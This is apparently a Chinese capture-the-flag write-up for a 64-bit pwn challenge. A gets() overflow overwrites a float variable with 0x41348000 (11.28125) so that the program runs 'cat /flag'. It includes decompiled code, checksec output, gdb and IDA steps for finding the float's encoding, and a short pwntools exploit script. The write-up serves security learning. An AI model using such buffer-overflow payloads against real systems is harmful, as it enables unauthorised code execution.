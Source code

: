 ```yaml
---
date: 2023-12-26
tag:	
  - pwn
  - stack
---
```




# siscn_pwn1(栈迁移+float数据格式)

> 看一下题发现应该是比较简单的 由于有个gets函数 所以我有点想直接覆盖数据为11.28125

```c
int func()
{
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
  else
    return puts("Its value should be 11.28125");
}
```

- 保护

```shell
[*] '/home/agentalbrazee/work/ctf/pwn/cp/nssctf/pwn1/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

## 实验float的存储数据

> 为了实验一下 我们手搓一个程序 gdb调试一下

```c
#include<stdio.h>
int main()
{
    float a;
    a = 11.28125;
    printf("The value of a is %f\n",a);
}
```

- 获取结果:

  ```shell
  ► 0x5555555551c7 <main+62>    call   __isoc99_scanf@plt                <__isoc99_scanf@plt>
          format: 0x555555556004 ◂— 0x7620656854006625 /* '%f' */
          vararg: 0x7fffffffdee4 ◂— 0xc7df9b0041348000
  
  ```

- 那么我们就知道了 这里的存储数据为0xc7df9b0041348000
- 但是好像显然不太对所以我们这里干脆用idapython在ida里面提取出来

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  float v4; // [rsp+2Ch] [rbp-4h] BYREF

  _main(argc, argv, envp);
  v4 = 11.28125;
  scanf("%f", &v4);
  printf("The value of a is %f\n", v4);
  return 0;
}
```

- 然后在scanf里面下idapython脚本:

  ```python
  import idc
  print("rax",hex(idc.get_reg_value("rax")))
  ```

- 获取数据:rax 0x61fe1c 好像还是不太对

- (太笨了)最后我们直接在程序源代码重找cmp的部分找到了 

  ```shell
  .rodata:00000000004007F4 00 80 34 41                   dword_4007F4 dd 41348000h  
  ```

  

## 尝试覆盖

```python
from pwn import *
# r = remote("node5.anna.nssctf.cn",28355)
r = gdb.debug("./pwn1","b main")
print(r.recvuntil(b"Let's guess the number.\n"))
payload = b"a"*(0x30 - 4) +p32(0x41348000)
r.sendline(payload)
r.interactive()
```

- 最后成功 
